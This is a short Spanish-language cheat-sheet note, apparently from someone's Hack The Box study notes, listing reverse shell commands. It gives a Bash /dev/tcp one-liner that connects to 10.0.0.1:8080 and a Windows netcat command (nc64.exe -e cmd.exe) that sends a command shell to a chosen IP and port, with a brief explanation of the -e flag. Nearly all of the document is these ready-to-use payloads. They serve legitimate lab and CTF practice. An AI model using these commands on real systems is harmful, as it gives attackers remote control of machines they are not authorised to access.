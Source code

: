 
# Linux

## Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

# Windows

## nc64.exe

Utilizando el binario de netcat para windows x64 podemos mandarnos una reverse shell. Se utiliza en [[Archetype HTB]].

```powershell
.\nc64.exe -e cmd.exe <ip> <port>
```

Con el parámetro `-e` indicamos que queremos ejecutar un archivo al conectarnos, en este caso una cmd.